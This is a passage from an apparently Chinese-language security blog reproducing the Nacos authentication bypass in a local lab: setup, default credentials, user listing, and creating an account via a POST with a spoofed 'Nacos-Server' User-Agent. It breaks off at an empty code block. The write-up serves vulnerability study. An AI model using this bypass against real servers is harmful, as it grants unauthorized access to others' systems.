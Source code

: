 Windows搭建：
1. 进入github下载地址后下载版本：
```
nacos-server-2.0.0-ALPHA.1.zip
```
2. 解压出来后进入bin目录：
```
D:\TargetDrone\nacos-server-2.0.0-ALPHA.1\nacos-server-2.0.0-ALPHA.1\nacos\bin
```
3. 输入在当前文件夹下使用打开cmd窗口，输入命令：
```
.\startup.cmd -m standalone
```
4. 然后访问网站：
```
http://192.168.31.134:8848/nacos/
192.168.31.134：自己的内网IP地址
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250704214003.png)
 5. 默认账号密码
```
 nacos/nacos
```
即可。
## 4. 漏洞复现
1. 漏洞路径
```
http: your-ip:8848/nacos/v1/auth/users?pageNo=1&pageSize=1
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250704214308.png)
2. 虽然有password了, 但是是加盐过的,解密不了，从上图可以发现，⽬前有⼀个⽤户nacos 漏洞利⽤，访问
```
http: your-ip:8848/nacos/v1/auth/users
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250704214433.png)
PSOT传参：
```
username=test1&password=test1
```
 UA 头：
```
 Nacos-Server 
```
发送POST请求，返回码200，创建⽤户成功~！
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250705124923.png)
返回Nacos登录界面：
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250705125222.png)

使用账号/密码：
```
test1/test1
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250705125331.png)
关闭环境：
```
./shutdown.sh
```
## 5. 漏洞分析
Nacos-Server是⽤来进⾏服务间的通信的⽩名单。⽐如服务A要访问服务B，如何知道服务A是服务，只需要在服务A访问服务B的时候UA上写成 Nacos-Server 即可。
正因为这样，所以当我们**UA恶意改为Nacos-Server的时候**，就会被误以为是服务间的通信，因此在⽩名单当中，绕过的认证。
这⾥⽤的是nacos-2.0.0-ALPHA.1的代码进⾏分析
关键代码在该⽂件下:
```
```